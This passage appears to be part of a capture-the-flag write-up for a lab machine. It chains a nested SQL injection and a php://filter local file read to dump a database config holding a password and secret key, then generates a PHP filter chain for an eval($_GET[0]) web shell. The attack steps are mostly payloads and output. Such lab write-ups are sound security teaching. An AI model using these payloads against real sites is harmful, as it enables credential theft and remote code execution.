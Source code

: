 ```bash
http://TargetIP/album.php?short_tag=smart=-5166' UNION SELECT "0 UNION SELECT 1,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d6462636f6e6669672e706870-- -"-- -
```

<img width="1027" height="116" alt="image" src="https://github.com/user-attachments/assets/25afe37b-5ed1-4a48-88a7-8530f5eadd3a" />

```bash
http://TargetIP/image.php?hash=ec6e518b7e39db98affbf2bf2c671d469639503d4fee97bf7cf0f0a1319075d9&path=php://filter/convert.base64-encode/resource=album.php
```

<img width="1005" height="204" alt="image" src="https://github.com/user-attachments/assets/d4779925-2c6f-4ef0-94a5-ac61e0731dec" />

```bash
http://TargetIP/album.php?short_tag=smart=-5166%27%20UNION%20SELECT%20%220%20UNION%20SELECT%201,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d6462636f6e6669672e706870--%20-%22--%20-
```

<h3>Secret Key</h3>

```bash
:~/Moebius# curl -s 'http:/TargetIP/image.php?hash=329e7517a6e3c82421ee8ce483271c69a71fbcc7e6956abde4957a63f4ad9ccf&path=php://filter/convert.base64-encode/resource=dbconfig.php' | base64 -d
<?php
// Database connection settings
$servername = "db";
$username = "web";
$password = "TAJnF6YuIot83X3g";
$dbname = "web";


$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
?>
```

<h3>CyberChef</h3>

<img width="1349" height="208" alt="image" src="https://github.com/user-attachments/assets/16af1b89-ef6c-4d7a-8a70-fe1daee876c7" />

```bash
php://filter/convert.base64-encode/resource=dbconfig.php
```

```bash
7d96b9a087f798453ff2a28959f80433464afbf3846ed22f252f15b4ee48f0cc
```

<br>
<br>

<h3>PHP Filter Chain Generator</h3>
<p>https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/refs/heads/main/php_filter_chain_generator.py</p>

```bash
:~/Moebius# python3 ./php_filter_chain_generator.py --chain '<?=eval($_GET[0])?>'
[+] The following gadget chain will generate the following code : <?=eval($_GET[0])?> (base64 value: PD89ZXZhbCgkX0dFVFswXSk/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|co.............de|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
